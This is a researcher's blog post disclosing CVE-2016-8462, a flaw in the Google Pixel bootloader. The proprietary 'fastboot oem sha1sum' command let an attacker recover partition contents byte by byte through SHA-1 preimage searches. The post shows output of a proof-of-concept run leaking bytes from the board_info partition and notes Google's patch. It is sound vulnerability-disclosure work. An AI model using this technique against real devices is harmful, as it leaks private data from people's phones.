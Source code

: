 ```yaml
---
layout: post
title: fastboot oem sha1sum
author: Roee Hay
date: '2017-01-04'
tags:

---
```


In the [January 2017 Android Security Bulletin](https://source.android.com/security/bulletin/2017-01-01.html#id-in-bootloader), Google provided a patch to CVE-2016-8462, an interesting vulnerabiltiy in the Pixels' bootloader. I reported this issue to Google last December, but unfortunately got beat by Jon Sawyer ([@jcase](https://twitter.com/jcase)) and Sean Beaupre ([@firewaterdevs](https://twitter.com/firewaterdevs)), who reported it in October, so kudos to them!


Google Pixel's bootloader contains a proprietary fastboot oem command ('sha1sum'). This command accepts 3
arguments: partition name, size and offset, with the constraint that size >= offset. Thus, a physical attacker, a
malicious charger or a malicious host (with ADB access -- that can reboot the device to the bootloader) can easily
compute the preimage of the first bytes of any partition. This may allow the attacker to leak sensitive information
out of the device. In addition to the first bytes, one can conduct a preimage attack of higher offsets if a specific
pattern is (approximately) known , such as a known suffix or a prefix. 
What you can see below is the output of two
runs of our PoC against the board_info partition. The first run leaks bytes 0-7 ("HTC-BOAR") and the second run
leaks bytes 158-161 ("\xA2\x80\x00\x00")

{% highlight C %}


>> preimage.py board_info
> fastboot oem sha1sum board_info 0 1 = 7cf184f4c67ad58283ecb19349720b0cae756829 (1 byte )
00000000 : 48 H
> fastboot oem sha1sum board_info 1 1 = c2c53d66948214258a26ca9ca845d7ac0c17f8e7 (1 byte )
00000001 : 54 T
> fastboot oem sha1sum board_info 2 2 = f1dfdb58024fd801bb8d8d91b16183f255579149 (2 bytes )
00000002 : 43 C
00000003 : 2d -
> fastboot oem sha1sum board_info 3 3 = 16ad0e2f78e56b3d6dc93bd203e12b8118605de5 (3 bytes )
00000004 : 42 B
00000005 : 4f O
> fastboot oem sha1sum board_info 4 4 = 7e426c6d5f7b5ce99624a8e678a79828180bcd77 (4 bytes )
00000006 : 41 A
00000007 : 52 R
>> preimage.py board_info 4 158
> fastboot oem sha1sum board_info 158 158 = 45b1b0a4fe2bbefb1f7eb001b57bcb61a1d025b9 (158 bytes )
0000009e : a2 
0000009f : 80
000000a0 : 00
000000a1 : 00

{% endhighlight %}

Google's patch now prevents running the command on an arbitrary partition.

